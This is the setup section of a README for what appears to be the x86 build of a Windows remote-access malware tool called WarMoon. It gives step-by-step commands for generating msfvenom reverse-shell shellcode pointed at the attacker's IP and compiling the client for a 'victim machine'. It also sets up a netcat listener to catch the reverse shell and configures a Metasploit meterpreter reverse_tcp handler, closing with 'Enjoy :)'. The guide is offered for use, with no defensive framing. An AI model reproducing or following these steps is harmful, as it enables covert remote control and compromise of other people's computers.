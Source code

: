 # Setup

The setup is pretty much the same as the x64 version. However, the msfvenom commands to generate the shellcodes are different, they can be found inside of the Client.c file, and the compilation command is also different.

1. Install mingw-w64
```bash
sudo apt install mingw-w64
```
2. Clone the repository:
```bash
git clone https://github.com/IvanT7D3/WarMoon
```
3. Open Client.c and replace the contents of the variable ServerIP at line 30 with the IP address of the attacker machine
4. From the terminal, generate the shellcode for ShellcodeX64 using the first commented msfvenom command (Line 49) (Replace the LHOST variable with the IP address of the attacker machine)
5. Now Generate the respective shellcodes for ShellcodeSpawnNetcat and FallBackShell using the last 2 commented msfvenom commands (Lines 51 and 53) (Replace the LHOST variables like before)
6. Copy the output shellcodes of msfvenom for ShellcodeSpawnNetcat and FallBackShell, and paste them inside of ESH.c for the respective variables
7. Compile and execute ESH.c
```bash
gcc ESH.c -o esh && ./esh
```
8. Grab the output of esh, and replace ShellcodeSpawnNetcat and FallBackShell inside of the Client.c file and save.
9. Open Server.c and replace the contents at line 14 with the IP address of the attacker machine and save.
10. You should now be good to go, compile everything by typing:
```bash
i686-w64-mingw32-gcc -o Client.exe Client.c -lwsock32 -lwininet -lgdi32 -lntdll && gcc Server.c -o Server -lpthread && echo "Compilation Successful"
```
11. If everything went correctly, the string "Compilation Successful" should popup on your terminal. If not, there was an error when trying to compile. Make sure you did everything correctly.
12. Setting the server: Before executing the Client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```
If you don't do this, when executing Client.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client.exe will crash (The same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

13. msfconsole commands for Inject86:
```bash
use exploit/multi/handler
set LHOST SERVER-IP
set LPORT 4444
set payload windows/meterpreter/reverse_tcp
run
```
14. Everything should now be ready. Enjoy :)
